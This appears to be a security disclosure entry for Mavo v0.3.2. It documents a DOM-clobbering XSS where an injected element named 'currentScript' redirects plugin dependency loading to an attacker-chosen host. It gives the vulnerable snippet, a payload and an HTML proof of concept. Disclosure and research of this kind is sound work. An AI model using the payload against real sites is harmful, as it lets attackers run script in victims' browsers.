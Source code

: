 ## Mavo

### Meta

+ Library: Mavo
+ Stars: 2.8K
+ Version: v0.3.2
+ Fingerprint: `typeof Mavo !== 'undefined' && Mavo.hasOwnProperty('Plugins')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/mavoweb/mavo

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.min.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.min.js`
+ `https://cdn.jsdelivr.net/npm/mavo@0.3.2/dist/mavo.min.js`

### Vulnerable Code Snippet

```javascript
if (o.dependencies) {
    let base = document.currentScript? document.currentScript.src : location;
    let dependencies = o.dependencies.map(url => Mavo.load(url, base));
    ready.push(...dependencies);
}
```

## PoC

```html
<image name=currentScript src="http://localhost:8000"></img>

<script src="https://get.mavo.io/stable/mavo.js"></script>
<link rel="stylesheet" href="https://get.mavo.io/stable/mavo.css">

<script>
(function ($, $$) {

Mavo.Plugins.register("myplugin", {
	dependencies: ["a.js"],
});

})(Bliss, Bliss.$);
</script>
```
